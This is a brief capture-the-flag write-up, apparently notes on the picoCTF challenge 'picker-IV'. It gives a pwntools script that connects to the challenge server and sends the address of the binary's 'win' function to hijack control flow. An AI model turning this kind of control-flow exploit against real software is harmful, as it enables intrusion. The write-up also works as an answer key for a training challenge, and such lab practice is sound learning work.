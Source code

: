 ```yaml
---
created: 2024-08-08T02:30
updated: 2024-08-08T02:36
---
```

We have to jump to `win`.

```python
from pwn import *
elf = ELF('./picker-IV')
r = remote('saturn.picoctf.net', 53475)
r.sendlineafter(b': ', hex(elf.symbols['win'])[2:])
print(r.recvall().decode())
```